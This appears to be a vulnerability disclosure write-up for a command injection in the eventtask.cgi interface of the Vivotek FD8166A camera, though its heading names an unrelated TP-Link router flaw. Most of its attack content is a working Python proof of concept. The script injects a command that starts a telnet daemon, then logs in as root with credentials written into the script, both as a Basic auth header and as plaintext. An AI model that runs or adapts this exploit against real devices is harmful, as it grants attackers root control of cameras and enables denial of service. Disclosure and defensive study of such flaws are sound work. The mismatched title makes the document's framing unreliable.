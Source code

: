 # Tplink-wr886n-v6-cloud_config-device_legality_illegal-dos-analysis

Vender：vivotek  
Firmware version: FD8166A-VVTK-0204j 
Hardware version: FD8166A  
Exploit Author: ljzjsc  
Vendor Homepage: <https://www.vivotek.com/>  
Hardware Link: <https://www.vivotek.com/fd8166a>  

## Vul detail
eventtask.cgi is a cgi interface that can be accessed in the device and can be accessed directly in the browser.

![1706496909343](./vivotek-FD8166A-eventtask-analysis.assets/1706496909343.png)

There is a command injection function in eventtask.cgi. The attacker only needs to construct the response payload to execute the response function to achieve the effect of arbitrary execution of the command.

![1706497925920](./vivotek-FD8166A-eventtask-analysis.assets/1706497925920.png)

We construct the corresponding payload to achieve rebound shell, denial of service and other attacks.

![1706500233048](./vivotek-FD8166A-eventtask-analysis.assets/1706500233048.png)

## PoC
```python
import requests
import telnetlib

url = "http://192.168.1.107/cgi-bin/admin/eventtask.cgi?method=exec&file=telnetd%20-p%208999"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Authorization": "Basic cm9vdDpsaTEwMTdydWk=",
    "Connection": "close",
    "Cookie": "webptzmode=continuous; activatedmode=digital; g_mode=1; viewsizemode=100; 4x3=false",
    "Upgrade-Insecure-Requests": "1"
}

response = requests.get(url, headers=headers)
print(response.status_code)
print(response.text)

tn = telnetlib.Telnet("192.168.1.107", 8999)
tn.read_until(b"login: ")
tn.write(b"root\n")
tn.read_until(b"Password: ")
tn.write(b"li1017rui\n")
response = tn.read_until(b"#")
tn.write(b"id\n")
response = tn.read_until(b"#")
print(response.decode('utf-8'))
```


<video src="./vivotek-FD8166A-eventtask-analysis.assets/video.mp4"></video>
